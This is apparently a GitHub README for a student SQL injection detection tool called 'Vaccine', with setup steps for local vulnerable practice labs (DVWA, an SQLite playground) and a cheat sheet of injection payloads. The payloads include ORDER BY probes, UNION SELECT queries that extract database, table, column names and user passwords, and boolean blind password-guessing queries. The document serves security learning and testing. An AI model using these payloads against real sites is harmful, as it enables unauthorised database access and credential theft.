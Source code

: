 # Vaccine - Web (Cybersecurity)

Detect SQL injection using a given URL
  - Check `Error` and `Union` SQL injections
  - Check `Mysql` and `SQLite` database types

Display following information in case a website is confirmed to be vulnerable
  - Payload used
  - Database names
  - Table names
  - Column names
  - Other values

Display result in terminal and store in a log file (default: `log.txt`)

<img width="815" alt="Capture d’écran 2023-12-17 à 17 24 18" src="https://github.com/mfunyu/Stockholm/assets/60470877/ff270001-5e5d-480b-966d-617b53e54fa1">

## Usage

  ```
  usage: vaccine.py [-h] [-o O] [-x X] [-i] URL

  positional arguments:
    URL

  optional arguments:
    -h, --help  show this help message and exit
    -o O        Archive file, if not specified it will be stored in a default one.
    -x X        Type of request, if not specified GET will be used.
    -i          Specify talbe and column name using input.
  ```

- Start running docker containers
  ```
  make setup
  ```


## ① Damn Vulnerable Web Application [(github)](https://github.com/digininja/DVWA)

|  | data |
| - | - |
| url |  http://localhost:8080/vulnerabilities/sqli/index.php |
| method | GET |
| token | required |

1. Start docker container (`make setup`)
   ```
   docker run -it -d -p 8080:80 vulnerables/web-dvwa
   ```
2. Initialize database manually
   - http://localhost:8080/setup.php

3. Login manually
   - http://localhost:8080/login.php
   ```
   username: admin
   password: password
   ```

4. Get cookie
   - http://localhost:8080/index.php
   - get cookie value of `PHPSESSID`
     - inspect -> Application tab -> Storage -> Cookies

5. Set cookie to evn variable
   ```
   export TOKEN=YOUR_COOKIE
   ```

## ② sqli-playground [(github)](https://gitlab.cylab.be/cylab/play/sqlite-injection/)

|  | data |
| - | - |
| url | http://localhost:8000 | 
| method | POST |
| token | - |

1. Start docker container (`make setup`)
   ```
   docker run -d -p 8000:80 gitlab.cylab.be:8081/cylab/play/sqlite-injection
   ```

# SQL Injection

## Other SQL injection sites

- https://altoromutual.com/login.jsp

- https://redtiger.labs.overthewire.org/

## 1. ERROR
- Use `ORDER BY` to check numbers of colums
```
' ORDER BY 1--
' ORDER BY 2--
...
```

## 2. UNION

### a. MySQL
- https://portswigger.net/web-security/sql-injection/union-attacks

- Get database name
```
' UNION SELECT null, DATABASE() #
```
- Get table_names
```
' UNION SELECT null, table_name FROM information_schema.tables WHERE table_type='BASE TABLE' AND table_schema = 'dvwa' #
```
- Get column_names
```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'users'#
```

### b. SQLite

- Get table_names
```
' union select null, null, tbl_name from sqlite_master--
```
- Get column_names
```
' union select null, null, sql from sqlite_master where name="users"--
```


- working other query examples
```
' union select null, username, password from users --
```


## Boolean

```
' or 1=2--
```

```
' or (select count(*) from app.accounts where substr(password, 1, 1)='a') >0--
